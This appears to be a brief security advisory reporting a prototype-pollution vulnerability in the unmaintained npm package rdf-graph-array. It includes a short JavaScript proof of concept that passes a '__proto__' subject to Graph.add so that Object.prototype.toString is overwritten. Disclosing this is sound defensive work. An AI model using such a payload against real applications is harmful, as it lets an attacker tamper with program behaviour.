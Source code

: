 # Overview

`rdf-graph-array` is a Graph implementation using arrays. Note: This package is no longer maintained, this package are vulnerable to Prototype Pollution.

The `rdf.Graph.prototype.add` method could be tricked into adding or modifying properties of `Object.prototype` using a prototype payload.

# Proof of Concept

```
var Graph = require("rdf-graph-array").Graph;
var g = new Graph();
g.add({graph: "foo", subject: "**proto**", "predicate": "toString", "object": "huntr.dev"});
console.log({}.toString);
```
